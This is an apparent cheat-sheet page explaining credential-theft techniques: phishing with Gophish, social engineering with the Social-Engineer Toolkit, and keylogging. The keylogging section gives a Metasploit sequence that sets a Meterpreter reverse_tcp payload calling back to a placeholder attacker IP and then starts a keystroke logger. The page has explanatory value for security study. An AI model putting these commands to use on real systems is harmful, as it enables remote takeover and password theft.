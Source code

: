 # Phishing for Credentials

**Summary:** 
Phishing involves tricking users into revealing their credentials by posing as a legitimate entity. Attackers often use fake websites, emails, or messages to collect passwords.

**Mechanism:**
- The attacker sends an email or message that appears to be from a trusted source, asking the user to log in.
- The user is redirected to a fake login page where their credentials are harvested.

**Example Scenario:**
Using `Gophish` to conduct a phishing campaign:
```
gophish
```
- Set up a phishing campaign, including email templates and fake login pages.
- Track which users fall for the phishing attempt and collect their credentials.

# Social Engineering

**Summary:** 
Social engineering attacks manipulate individuals into divulging their passwords by exploiting human psychology rather than technical vulnerabilities.

**Mechanism:**
- The attacker might impersonate an IT staff member and ask the user for their password to "fix an issue."
- Alternatively, the attacker could use tactics like pretexting or baiting to gain trust and extract information.

**Example Scenario:**
No specific command, as social engineering relies on human interaction rather than tools. However, tools like `SET (Social-Engineer Toolkit)` can help automate some aspects of social engineering:
```
setoolkit
```
- Choose the social engineering attack vector and follow the prompts to create a convincing scenario.

# Keylogging

**Summary:** 
Keylogging involves capturing keystrokes to steal passwords as they are typed by the user. This attack can be performed via hardware devices or malware.

**Mechanism:**
- The attacker installs a keylogger on the victim’s machine, which records all keystrokes, including passwords.
- The collected data is sent back to the attacker for analysis.

**Example Command:**
Using `Metasploit` to deliver a keylogger payload:
```
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost <attack_ip>
set lport <attack_port>
exploit
keyscan_start
```
- `<attack_ip>`: The IP address of the attacker's machine.
- `<attack_port>`: The port on which the attacker's machine is listening.

